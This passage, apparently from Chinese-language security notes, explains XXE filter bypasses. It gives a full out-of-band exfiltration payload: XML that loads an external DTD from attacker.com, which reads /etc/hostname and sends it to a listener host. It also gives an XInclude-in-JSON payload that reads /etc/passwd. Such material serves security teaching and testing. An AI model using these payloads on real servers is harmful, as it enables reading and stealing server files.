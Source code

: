 2. 替换file协议为上面的其他协议
3. 带外 (Out-of-Band) 数据泄露绕过
    
    攻击流程分解：
    
    1. 攻击者在服务器上托管一个恶意的 DTD 文件 (`evil.dtd`)。
    2. 受害者服务器接收到一个 XML，该 XML 引用了攻击者的外部 DTD。
    3. 受害者服务器的解析器请求并解析 `evil.dtd`。
    4. `evil.dtd` 中的指令被执行，它会读取服务器上的本地文件，并将文件内容作为 URL 的一部分，向攻击者的另一台服务器（监听服务器）发起请求。
    5. 攻击者在监听服务器的日志中看到请求，从而获得文件内容。
    
    Payload 实例：
    
    第 1 步：攻击者提交的初始 XML 负载
    这个负载告诉受害者服务器去加载并解析 `http://attacker.com/evil.dtd`。
    
    ```xml
    <?xml version="1.0" ?>
    <!DOCTYPE r [
      <!ENTITY % sp SYSTEM "http://attacker.com/evil.dtd">
      %sp;
    ]>
    <r>&exfil;</r>
    ```
    
    **第 2 步：托管在 `attacker.com` 上的 `evil.dtd` 文件**
    
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://listener.attacker.com/?content=%file;'>">
    
    %eval;
    ```
    
    工作原理解释：
    
    1. 受害者服务器解析初始 XML，发现参数实体 `%sp`，于是请求 `http://attacker.com/evil.dtd`。
    2. 解析器开始解析 `evil.dtd`。
    3. 它读取 `%file` 的定义，于是读取本地 `/etc/hostname` 文件，并将其内容（例如 `victim-server-name`）赋值给 `%file`。
    4. 接着，它读取 `%eval` 的定义。`%eval` 的内容是一段字符串，这段字符串本身又是一个实体定义。注意这里的 `&#x25;` 是 `%` 的 HTML 实体编码，这是为了防止解析器在这一步就尝试解析 `%exfil`。
    5. 最后，`%eval;` 被执行。此时，`%file` 已经被替换为 `victim-server-name`，所以 `%eval` 的内容变成了：
    `<!ENTITY % exfil SYSTEM 'http://listener.attacker.com/?content=victim-server-name'>`
    6. 这个新构造出来的实体定义被解析器执行，它会向攻击者的监听服务器发起一个 HTTP 请求。
    7. 攻击者查看 `listener.attacker.com` 的 Web 日志，看到一条类似 `GET /?content=victim-server-name HTTP/1.1` 的记录，成功窃取了主机名。
4. 绕过 Content-Type 限制 (例如 JSON API)
如果服务器支持 `XInclude` 规范，可以在一个看似合法的 JSON 值中嵌入一个 XInclude 负载。
    
    ```xml
    {
      "user_id": 123,
      "metadata": {
        "xi:include": {
          "@xmlns:xi": "http://www.w3.org/2001/XInclude",
          "@parse": "text",
          "@href": "file:///etc/passwd"
        }
      }
    }
    ```
    